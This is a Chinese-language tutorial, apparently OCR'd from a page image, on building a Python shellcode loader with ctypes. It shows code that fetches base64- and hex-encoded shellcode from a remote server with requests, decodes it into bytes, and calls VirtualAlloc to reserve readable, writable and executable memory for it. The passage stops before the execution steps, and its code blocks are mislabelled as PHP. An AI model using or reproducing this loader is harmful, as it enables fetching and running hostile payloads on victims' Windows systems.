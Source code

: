 ctypes库
-------

python的ctypes模块是内建，用来调用系统动态链接库函数的模块

使用ctypes库可以很方便地调用C语言的动态链接库，并可以向其传递参数。

```php
import ctypes
import requests
import b ase64
```

读取shellcode
-----------

我是将shellcode生成后，经hex转码，使用b ase64编码，放在了服务器123.txt文件上  
由于后面操作是将代码写入内存，所以需要将代码解码并转为字节类型

```php
scode = requests.get(&quot;http://192.168.1.1/123.txt&quot;)
shellcode = bytearray(b ase64.b64decode(scode.text).decode('hex'))
```

设置返回类型
------

我们需要用VirtualAlloc函数来申请内存，返回类型必须和系统位数相同

想在64位系统上运行，必须使用restype函数设置VirtualAlloc返回类型为ctypes.c\_unit64，否则默认的是 32 位

```php
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
```

申请内存
----

调用VirtualAlloc函数，来申请一块动态内存区域。

VirtualAlloc函数原型和参数如下

```php
LPVOID VirtualAlloc{
LPVOID lpAddress,       #要分配的内存区域的地址
DWORD dwSize,           #分配的大小
DWORD flAllocationType, #分配的类型
DWORD flProtect         #该内存的初始保护属性
};
```

申请一块内存可读可写可执行

```php
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
```
